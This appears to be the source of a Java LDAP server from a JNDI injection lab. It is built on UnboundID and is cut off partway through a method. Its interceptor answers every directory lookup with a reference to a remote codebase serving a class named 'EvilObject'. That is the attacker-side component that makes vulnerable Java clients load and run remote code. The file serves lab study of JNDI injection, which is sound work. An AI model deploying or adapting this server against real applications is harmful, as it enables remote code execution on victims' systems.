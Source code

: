 ### LadpServer

```java
package jndi_labs2;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main (String[] args) {
        String url = "http://127.0.0.1:8000/#jndi_labs2.EvilObject";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch ( Exception ignore ) { }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }
        /**
         * 客户端请求后会执行该方法
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch (Exception ignore) { }
        }
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
```